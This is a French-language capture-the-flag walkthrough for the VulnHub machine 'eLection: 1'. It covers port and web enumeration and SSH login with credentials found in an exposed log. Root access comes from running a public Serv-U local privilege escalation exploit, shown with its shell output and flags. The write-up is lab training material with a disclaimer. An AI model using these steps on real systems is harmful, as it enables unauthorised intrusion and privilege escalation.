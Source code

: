 ```yaml
---
title: "CTF eLection: 1"
date: 2021-05-04
tags: ["Pentest", "CTF"]
download: https://www.vulnhub.com/entry/election-1,503/
---
```


## Avant propos

Le déroulé de ce hack a été réalisé sur une machine prévue à cette effet. Il est interdit de mener ce genre d'action sur une machine qui ne vous appartient pas sans l'accord de son ou sa propriétaire.  
Ce CTF a été réalisé avec une machine attaquante **Kali 2021.1** (`lsb_release -r`).

## Enumération

On récupère l'adresse IP de la machine distante avec **Netdiscover** `sudo netdiscover`.  
Avant de poursuivre, on exporte cette adresse dans une variable pour être tranquille par la suite `export IP=192.168.1.20`.  
Puis on créé un dossier dédié à ce CTF `cd Documents/ctf && mkdir Election1 && cd Election1`.  
On lance **Nmap** pour scanner les ports de la machine distante.

```bash
$ nmap -A -p- $IP -oN nmap.txt
Nmap scan report for election.home (192.168.1.20)
Host is up (0.0036s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 20:d1:ed:84:cc:68:a5:a7:86:f0:da:b8:92:3f:d9:67 (RSA)
|   256 78:89:b3:a2:75:12:76:92:2a:f9:8d:27:c1:08:a7:b9 (ECDSA)
|_  256 b8:f4:d6:61:cf:16:90:c5:07:18:99:b0:7c:70:fd:c0 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```

On a un un serveur **SSH** sur le port **22** et un serveur **Apache** 2.4.29 sur le port **80**.

Astuce vous pouvez ajouter le domaine _election1.home_ dans le fichier `/etc/hosts` avec **Vim** (ou un autre éditeur de texte).

```bash
$ sudo vim /etc/hosts
192.168.1.20    election1.home
```

Testons la sécurité du serveur **Apache** avec **Nikto**.

```bash
$ nikto -h http://$IP -o nikto.txt
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 59558e1434548, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS
+ /phpinfo.php: Output from the phpinfo() function was found.
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ OSVDB-3233: /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
```

Dans le fichier [/robots.txt](http://election1.home/robots.txt), on a une liste de 4 répertoires potentiels.

```txt
admin
wordpress
user
election
```

Seul le dernier lien "election" fonctionne. On scanne le contenu du site avec **Gobuster**

```bash
$ gobuster dir -u http://$IP/election -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js,.md,.log,.zip
/index.php            (Status: 200) [Size: 7003]
/media                (Status: 301) [Size: 321] [--> http://192.168.1.20/election/media/]
/themes               (Status: 301) [Size: 322] [--> http://192.168.1.20/election/themes/]
/data                 (Status: 301) [Size: 320] [--> http://192.168.1.20/election/data/]
/admin                (Status: 301) [Size: 321] [--> http://192.168.1.20/election/admin/]
/lib                  (Status: 301) [Size: 319] [--> http://192.168.1.20/election/lib/]
/languages            (Status: 301) [Size: 325] [--> http://192.168.1.20/election/languages/]
/js                   (Status: 301) [Size: 318] [--> http://192.168.1.20/election/js/]
/card.php             (Status: 200) [Size: 1935]
```

Scannons le dossier "election/admin" avec **Gobuster**.

```bash
$ gobuster dir -u http://$IP/election/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt,.xml,.js,.md,.log,.zip
/index.php            (Status: 200) [Size: 8964]
/img                  (Status: 301) [Size: 325] [--> http://192.168.1.20/election/admin/img/]
/plugins              (Status: 301) [Size: 329] [--> http://192.168.1.20/election/admin/plugins/]
/css                  (Status: 301) [Size: 325] [--> http://192.168.1.20/election/admin/css/]
/ajax                 (Status: 301) [Size: 326] [--> http://192.168.1.20/election/admin/ajax/]
/live.php             (Status: 200) [Size: 22]
/js                   (Status: 301) [Size: 324] [--> http://192.168.1.20/election/admin/js/]
/components           (Status: 301) [Size: 332] [--> http://192.168.1.20/election/admin/components/]
/logout.php           (Status: 200) [Size: 83]
/inc                  (Status: 301) [Size: 325] [--> http://192.168.1.20/election/admin/inc/]
/logs                 (Status: 301) [Size: 326] [--> http://192.168.1.20/election/admin/logs/]
/logs.php             (Status: 200) [Size: 22]
/dashboard.php        (Status: 200) [Size: 22]
/guru.php             (Status: 200) [Size: 22]
```

Le répertoire [/election/admin/logs](http://election1.home/election/admin/logs) est intéressant car il contient un fichier "system.log".

```bash
$ cat system.log
[2020-01-01 00:00:00] Assigned Password for the user love: P@$$w0rd@123
[2020-04-03 00:13:53] Love added candidate 'Love'.
[2020-04-08 19:26:34] Love has been logged in from Unknown IP on Firefox (Linux).
[2021-04-30 01:19:09]  has been logged out from Unknown IP.
```

On un candidat potentiel "love:P@$$w0rd@123" pour la connexion **SSH**.

### Pénétration

On se connecte en **SSH** au serveur avec l'utilisateur "love".

```bash
$ ssh love@$IP
password: P@$$w0rd@123
```

On trouve facilement le flag user dans le dossier "Desktop" de l'utilisateur.

```bash
$ cat Desktop/user.txt
cd38ac698c0d793a5236d01003f692b0
```

### Escalation

En cherchant les exécutables avec des permisions spéciales pour l'utilisateur courant (**SUID**), on trouve un répertoire qui sort du lot.

```bash
$ find / -perm -4000 -type f 2>/dev/null
/usr/local/Serv-U/Serv-U
```

En effet, après une brève recherche sur Internet, **Serv-U** est un serveur **FTP** sécurisé. Dans les fichiers présents, on peut retrouver la version utilisée.

```bash
$ cat /usr/local/Serv-U/Serv-U-StartupLog.txt
[01] Fri 30Apr21 01:02:02 - Serv-U File Server (64-bit) - Version 15.1 (15.1.6.25) - (C) 2017 SolarWinds Worldwide, LLC.  All rights reserved.
```

On effectue une recherche d'exploit sur **Searchsploit**.

```bash
$ searchsploit Serv-U 15.1
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (1) | linux/local/47009.c
Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2) | multiple/local/47173.sh
```

On trouve 2 exploits semblables, le premier est écrit en langage C et le second en Shell.

```bash
$ searchsploit -p 47173
  Exploit: Serv-U FTP Server < 15.1.7 - Local Privilege Escalation (2)
      URL: https://www.exploit-db.com/exploits/47173
     Path: /usr/share/exploitdb/exploits/multiple/local/47173.sh
File Type: Bourne-Again shell script, ASCII text executable, with CRLF line terminators
```

On copie le fichier `cp /usr/share/exploitdb/exploits/multiple/local/47173.sh .` que l'on converti au format unix pour pouvoir l'exécuter correctement par la suite `dos2unix 47173.sh`. Puis on transfère ce dernier sur le serveur via **SCP** dans le dossier "/tmp".

```bash
$ scp 47173.sh love@$IP:/tmp
password: P@$$w0rd@123
```

Sur le serveur, on se place dans le répertoire "/tmp" pour exécuter le script.

```bash
$ cd /tmp
$ ./47173.sh
[*] Launching Serv-U ...
sh: 1: : Permission denied
[+] Success:
-rwsr-xr-x 1 root root 1113504 Apr 30 01:44 /tmp/sh
[*] Launching root shell: /tmp/sh
sh-4.4# id
uid=1000(love) gid=1000(love) euid=0(root) groups=1000(love),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),116(lpadmin),126(sambashare)
```

L'exploit a fonctionné, on a les droits de l'utilisateur root.

```bash
$ whoami
root
```

On peut donc accéder au flag root.

```bash
$ cat /root/root.txt
5238feefc4ffe09645d97e9ee49bc3a6
```

